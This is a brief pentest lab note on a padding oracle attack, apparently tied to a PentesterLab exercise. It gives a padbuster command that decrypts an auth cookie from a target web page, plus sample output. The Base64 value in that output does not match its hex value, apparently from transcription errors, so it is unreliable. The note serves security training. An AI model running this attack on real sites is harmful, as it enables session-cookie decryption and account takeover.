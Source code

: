 # Padding Oracle Attack

Get cookie then use `padbuster`

```bash
cookie=QG9eSXk3XcfP6cIv1RoZVKxjq5jHY3Dn

padbuster http://<ip>/index.php $cookie 8 -cookies "auth=$cookie"
```

```
** Finished ***
[+] Decrypted value (ASCII): user=<user>
[+] Decrypted value (HEX): 757365723D7334766974617204040404
[+] Decrypted value (Base64): dXNLcj1ZNHZpdGFyBAQEBA==
```

https://pentesterlab.com/exercises/padding-oracle
